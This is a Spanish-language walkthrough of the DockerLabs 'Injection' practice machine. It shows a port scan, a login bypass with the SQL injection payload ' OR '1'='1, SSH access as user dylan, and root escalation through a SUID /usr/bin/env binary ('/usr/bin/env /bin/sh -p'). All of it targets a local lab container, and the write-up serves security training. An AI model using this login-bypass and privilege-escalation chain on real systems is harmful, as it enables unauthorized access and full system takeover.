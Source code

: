 ```yaml
---
title: Injection - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/injection.png" alt="Captura de pantalla de la máquina Injection en DockerLabs">

Hoy trataremos de explotar la máquina *Injection* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Vamos a utilizar un payload de inyección SQL para evadir la autenticación del login.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh injection.tar
[sudo] contraseña para nmc:     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla

```



## Escaneo NMAP
Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 22:36 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```



Nos percatamos de que está abierto el puerto 22 con el servicio SSH y el puerto 80 con el servicio HTTP. Entramos a la web con el puerto 80: <mark>http://172.17.0.2:80</mark> y nos carga un formulario de login.

<img src="/assets/img/DLabs/login-injection.png" alt="Captura de pantalla del login de la máquina Injection en DockerLabs">

## Payload

Intentamos entrar con las siguientes credenciales:
User:<mark>' OR '1'='1</mark>
Password:<mark>' OR '1'='1</mark>

<img src="/assets/img/DLabs/credentials-injection.png" alt="Captura de pantalla de las credenciales de la máquina Injection en DockerLabs">

Este payload funciona porque modifica la consulta SQL del backend para que siempre sea verdadera:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```



Como <mark>'1'='1'</mark> siempre es cierto, se omite la verificación real.

## SSH 

Tras acceder al sistema, notamos que el nombre del usuario es dylan, visible en la interfaz web. Intentamos la conexión mediante SSH con esas credenciales:

```bash
➤ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.8.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

dylan@1eae96493101:~$
```



## Escalada de privilegios

Buscamos archivos con el bit **SUID** activado:

```bash
dylan@1eae96493101:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
dylan@1eae96493101:~$ 
```



El binario <mark>/usr/bin/env</mark> tiene el bit SUID activado, lo que permite ejecutarlo con privilegios de root. Lo aprovechamos para escalar privilegios con el siguiente comando y tambien probamos *whoami*:


```bash
dylan@1eae96493101:~$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
